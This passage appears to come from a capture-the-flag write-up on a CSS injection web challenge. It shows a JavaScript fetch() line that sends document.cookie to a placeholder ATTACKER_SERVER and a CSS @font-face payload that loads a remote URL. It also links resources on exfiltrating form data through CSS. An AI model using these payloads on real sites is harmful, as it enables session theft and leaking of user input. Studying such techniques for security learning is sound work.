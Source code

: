 I tried a variety of payloads/formats here but each had the same issue, e.g.


```javascript
fetch("https://ATTACKER_SERVER?flag=" + document.cookie, {
    method: "GET",
    headers: {
        "Content-Type": "application/json",
    },
});
```


I tested this a little in my own browser and spotted the following error.

![](images/4.PNG)

Still playing around in the browser devtools style editor, I try a different CSS payload.


```css
@font-face {
    font-family: "meow";
    src: url("https://ATTACKER_SERVER/payload.js");
}

body {
    font-family: "meow";
}
```


![](images/5.PNG)

I investigated/tested some more techniques from these excellent resources:

-   [Exfiltration via CSS Injection (tripoloski)](https://tripoloski1337.github.io/webex/2024/07/24/exfil-using-only-css.html)
-   [x3CTF - blogdog + new CSS Injection XS-Leak! (j0r1an)](https://jorianwoltjer.com/blog/p/research/x3ctf-blogdog-new-css-injection-xs-leak)
-   [irisCTF2023 Writeup - Web sanitzer - CSS Injection (SloppyJoePirates)](https://www.youtube.com/watch?v=j1dY-poGPKs)
-   [CSS Injection: Attacking with Just CSS (aszx87410)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)

### Exfiltration via CSS Injection

When reading the blogs, I noticed a method to exfiltrate data from form fields using CSS. I reviewed the source code again and realised there was some JS updating a password attribute each time a key was pressed.
